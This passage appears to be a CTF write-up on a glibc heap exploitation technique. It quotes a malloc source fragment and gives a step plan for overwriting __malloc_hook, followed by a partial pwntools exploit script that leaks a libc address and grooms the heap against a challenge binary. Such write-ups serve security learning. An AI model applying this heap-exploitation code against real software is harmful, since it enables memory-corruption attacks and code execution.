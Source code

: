 ```amd64
		      set_inuse_bit_at_offset (tc_victim, nb);
		      if (av != &main_arena)
			set_non_main_arena (tc_victim);
		      bin->bk = bck;
		      bck->fd = bin;

		      tcache_put (tc_victim, tc_idx);
	            }
```
1. set smallbin[0x90]: A --> B
2. set tcache[0x90](6) 
3. set tcache[0x220](2): chunk -> __malloc_hook
4. modify fd,bk of B : fd=A bk=HEAP+0x30-0x10
5. calloc 0x88
6. magic()
7. magic() to modify __malloc_hook


## exp
```python
from pwn import *
context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch='amd64'
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c.ljust(size,'\0'))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p=process("./pwn")
#p=remote("buuoj.cn",25327)
for x in range(6):
    add(0,0x88)
    free(0)
for x in range(7):
    add(0,0x288,"n132")
    free(0)
add(0,0x288)
add(1,0x99)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.read(6)+'\0\0')-libc.sym['__malloc_hook']-0x70
libc.address=base

add(0,0x1f8)
free(0)
free(1)
add(0,0x288)
add(1,0x99)
```

[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io